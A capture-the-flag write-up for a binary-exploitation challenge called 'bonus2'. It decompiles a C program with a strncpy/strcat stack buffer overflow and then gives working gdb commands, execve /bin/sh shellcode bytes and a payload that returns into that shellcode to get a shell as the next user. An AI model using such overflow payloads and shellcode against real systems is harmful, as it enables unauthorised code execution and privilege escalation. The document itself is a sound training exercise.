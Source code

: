 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← bonus1](../bonus1/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[bonus3 →](../bonus3/solution.md)
</span>
</span>

bonus2
======

Decompilation
-------------

The program looks like this:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <strings.h>

#define LANG_FI "fi"
#define LANG_NL "nl"

#define S_GREETING_EN "Hello "
#define S_GREETING_FI "Hyv\xC3\xA4\xC3\xA4 p\xC3\xA4iv\xC3\xA4\xC3\xA4 "
#define S_GREETING_NL "Goedemiddag! "

enum lang_id
{
    LANG_ID_EN,
    LANG_ID_FI,
    LANG_ID_NL,
};

static enum lang_id    language;

int greetuser(char *message)
{
  char greeting [72];

  if (language == LANG_ID_FI)
    strcpy(greeting, S_GREETING_FI);
  else if (language == LANG_ID_NL)
    strcpy(greeting, S_GREETING_NL);
  else if (language == LANG_ID_EN)
    strcpy(greeting, S_GREETING_EN);

  strcat(greeting, message);

  return puts(greeting);
}


int main(int ac, char **av)
{
  int ret;
  char message [76];
  char *lang;

  if (ac == 3)
  {
    bzero(message, sizeof(message));

    strncpy(message, av[1], 40);
    strncpy(message + 40, av[2], 32);

    lang = getenv("LANG");

    if (lang != NULL)
    {
      ret = memcmp(lang, LANG_FI, sizeof(LANG_FI) - 1);

      if (ret == 0)
        language = LANG_ID_FI;
      else
      {
        ret = memcmp(lang, LANG_NL, sizeof(LANG_NL) - 1);

        if (ret == 0)
          language = LANG_ID_NL;
      }
    }
    ret = greetuser(message);
  }
  else
    ret = 1;
  return ret;
}
```

The main takes two arguments and stores them consecutively into a stack buffer.
Afterwards, it checks the `LANG` variable to determine the language in which to greet the user.
The buffer is then passed to the greetuser function, which will concatenate the greeting and the buffer into a separate stack buffer.
Finally, the message is printed to standard output using puts.

Exploitation
------------

If we manage to overflow the message buffer we can override greetuser's return pointer.
We can exploit strncpy again, because it does not guarantee NUL-termination.
This enables the greetuser's strcat to read the consecutive arguments without encountering the of the string.
Using the `LANG` variable, we can select the longest greeting to fill the beginning of the buffer.

```
buffer_len = 72
arg1_len = 40
greeting_len = 18

arg2_len = buffer_len - arg1_len - greeting_len + 4 = 18
```

The buffer is 72 bytes long, which means that we need to input 40 bytes into the first, and 18 into the second argument to reach the return pointer.

We can determine the address of the destination buffer using gdb, put some shellcode at the beginning and overflow with the buffer's address, to return onto it.

To prevent issues with the environment size interfering with stack addresses, we can use the env utility with the -i option.

```sh
gdb -batch -ex 'set exec-wrapper env -i LANG=fi' -ex 'b * 0x8048522' -ex "r $(printf '%.0sA' {1..40}) $(printf '%.0sB' {1..18})CCCC" -ex 'p (char*) $eax + 18' ./bonus2
```
```
...
Breakpoint 1, 0x08048522 in greetuser ()
$1 = 0xbffffd12 'A' <repeats 40 times>, 'B' <repeats 18 times>, "CCCC"
```

We can now input our shellcode:
```sh
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

env -i LANG=fi ~/bonus2 "$SHELLCODE$(printf '%.0sA' {1..19})" "$(printf '%.0sB' {1..18})"$'\x12\xfd\xff\xbf' <<< whoami
```
```
Hyvää päivää 1É÷á°
                  Qh//shh/binã̀AAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBýÿ¿
bonus3
```
